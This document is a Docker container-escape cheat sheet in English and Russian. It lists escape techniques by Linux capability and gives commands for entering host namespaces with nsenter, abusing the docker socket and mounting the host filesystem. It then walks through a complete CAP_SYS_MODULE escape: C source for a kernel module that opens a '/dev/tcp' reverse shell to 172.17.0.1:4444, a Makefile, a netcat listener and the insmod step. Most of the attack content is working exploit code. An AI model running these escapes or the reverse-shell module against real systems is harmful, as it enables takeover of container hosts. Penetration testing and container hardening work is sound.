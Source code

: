 # Docker Escape

| **ID** | **Techniques Name**              | **Minimal Linux Capabilities**   |
| ------ | -------------------------------- | -------------------------------- |
| 1      | Mount the host filesystem        | SYS\_ADMIN                       |
| 2      | Use a mounted docker socket      | No capability is required        |
| 3      | Process Injection                | SYS\_PTRACE                      |
| 4      | Adding a malicious kernel module | SYS\_MODULE                      |
| 5      | Reading secrets from the host    | DAC\_READ\_SEARCH                |
| 6      | Overriding files on host         | DAC\_READ\_SEARCH, DAC\_OVERRIDE |
| 7      | Abusing notify on release        | SYS\_ADMIN, DAC\_OVERRIDE        |

### Privileged + hostPID <a href="#privileged--hostpid" id="privileged--hostpid"></a>

With these permissions you can just **move to the namespace of a process running in the host as root** like init (pid:1) just running:&#x20;

`nsenter --target 1 --mount --uts --ipc --net --pid -- bash`

### Docker socket

```sh
#default path to docker socket
ls -la /var/run/docker.sock

#search sockets
find / -name "*.sock"
```

### Arbitrary Mounts

```bash
docker run --rm -it -v /:/host ubuntu bash
```

### Побег из контейнера используя CAP\_SYS\_MODULE

Создадим два файла: `reverse_shell.c` и `Makefile`

Содержимое файла `reverse_shell.c`:

```c
#include <linux/kmod.h>
#include <linux/init.h>
#include <linux/kernel.h>
#include <linux/module.h>
static char command[50] = "bash -i >& /dev/tcp/172.17.0.1/4444 0>&1";
char* argv[] = {"/bin/bash","-c", command, NULL};
static char* envp[] = {"HOME=/",NULL};
static int __init connect_back_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit connect_back_exit(void){
printk(KERN_INFO "Exiting\n");
}
module_init(connect_back_init);
module_exit(connect_back_exit);

MODULE_LICENSE("GPL");
```

**Большое пояснение**&#x20;

_Данный модуль ядра вызывает программу пространства пользователя /bin/bash из ядра с помощью call\_usermodehelper. argv — это список аргументов в массиве. Первый элемент — это программа (/bin/bash), которое мы хотим выполнить, и за ней следует список аргументов. Последний элемент является терминатором NULL, который указывает на конец списка._

_envp — следующая необходимая переменная. Это массив окружения, представляющий собой список параметров, определяющий среду выполнения для приложения пользовательского пространства. В этом примере мы определили один параметр HOME для оболочки, и этот список заканчивается терминирующей записью NULL, как и argv._

_Последний аргумент call\_usermodehelper — UMH\_WAIT\_EXEC. Это необходимо для того, чтобы указать, что запрашивающий хочет дождаться запуска приложения пользовательского пространства, но не завершить его._

_Наконец, мы используем IP-адрес 172.17.0.1 в качестве IP-адреса прослушивателя, поэтому этот модуль попытается сделать обратное подключение к этому IP-адресу через порт 4444. Данный ip-адрес может отличаться, но в моем случае это 172.17.0.1. Проверить ваш ip-адрес интерфейса docker0 можно командой ip a или ifconfig docker0._

**Конец большого пояснения**

Содержимое `Makefile`:

```
test@test:~/revershell_module$ cat Makefile 
obj-m += reverse_shell.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(shell pwd) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(shell pwd) clean
```

Запустите команду make в репозитории, на выходе вы должны получить .ko файл.

Запустите контейнер с --privileged флагом в deteached режиме и скопируйте туда .ko файл:

```bash
docker run --privileged -itd alpine
test@test:~/revershell_module$ docker cp  reverse_shell.ko friendly_elion:.
Preparing to copy...
Copying to container - 32.77kB
Copying to container - 64.51kB
Successfully copied 64.51kB to friendly_elion:.
```

Запустите еще один терминал и начните прослушивание на порту 4444 с помощью утилиты netcat:

```bash
nc -lvp 4444 Listening on 0.0.0.0 4444
```

А теперь самое время загрузить наш модуль ядра внутри контейнера :)

```bash
insmod reverse_shell.ko
```
